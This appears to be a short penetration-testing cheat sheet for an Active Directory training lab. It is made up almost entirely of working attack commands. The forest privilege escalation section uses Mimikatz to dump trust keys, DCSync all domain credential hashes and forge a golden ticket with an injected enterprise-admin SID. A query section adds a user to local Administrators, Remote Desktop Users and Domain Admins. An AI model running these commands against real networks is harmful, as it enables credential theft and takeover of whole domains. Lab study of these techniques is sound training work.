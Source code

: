## Forest Priv Esc

```powershell

Invoke-Mimikatz

Invoke-Mimikatz -Command '"lsadump::trust /patch"'

Invoke-Mimikatz -Command '"lsadump::dcsync /domain:DOLLARCORP.MONEYCORP.LOCAL /all /csv"'

Invoke-Mimikatz -Command '"kerberos::golden /user:student21 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ptt"'

gwmi -Class win32_computersystem -ComputerName mcorp-dc.moneycorp.local


```

## Query

```powershell
net localgroup administrators
# add to localgroup admins
net localgroup Administrators student21 /add 

# add to RDP group
net localgroup "Remote Desktop Users" student21 /add

# Add to DA 
net group "DOMAIN ADMINS" student21 /domain /add

# Checking First Degree Object Controls
# if the user is part of a group example sql admins and has generic all access we can do the following
net group "SQLMANAGERS" examAd /domain /add

```
